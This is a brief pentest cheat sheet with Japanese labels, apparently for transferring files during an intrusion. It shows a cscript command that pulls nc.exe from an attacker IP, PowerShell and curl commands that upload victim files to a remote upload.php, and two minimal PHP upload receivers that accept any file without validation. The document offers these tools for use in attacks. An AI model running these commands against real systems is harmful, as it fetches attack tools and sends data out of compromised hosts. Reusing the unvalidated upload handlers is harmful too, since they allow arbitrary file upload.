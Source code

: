 実行

```bash
cscript wget.vbs http://<attacker_ip>/nc.exe nc.exe
```

#### FileUpload

```bash
powershell (New-Object System.Net.WebClient).UploadFile('http://[IP]/upload.php', '[FILE_NAME]')
```

簡易的なupload.php

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile) ?>
```

## Linux

```bash
wget [url]
curl -O [url]
```

#### FileUpload

```
curl -X POST -F fname=@$FILEPATH  http://[IP]/up.php
```

#### 簡易的なup.php

```php
<form action="up.php" method="post" enctype="multipart/form-data">
  <input type="file" name="fname">
  <input type="submit" value="アップロード">
</form>

<?php
$tempfile = $_FILES['fname']['tmp_name'];
$filename = '/var/www/uploads/' . $_FILES['fname']['name'];

if (is_uploaded_file($tempfile)) {
    if ( move_uploaded_file($tempfile , $filename )) {
        echo $filename . "をアップロードしました。";
    } else {
        echo "ファイルをアップロードできません。";
    }
} else {
    echo "ファイルが選択されていません。";
} 
?>
```
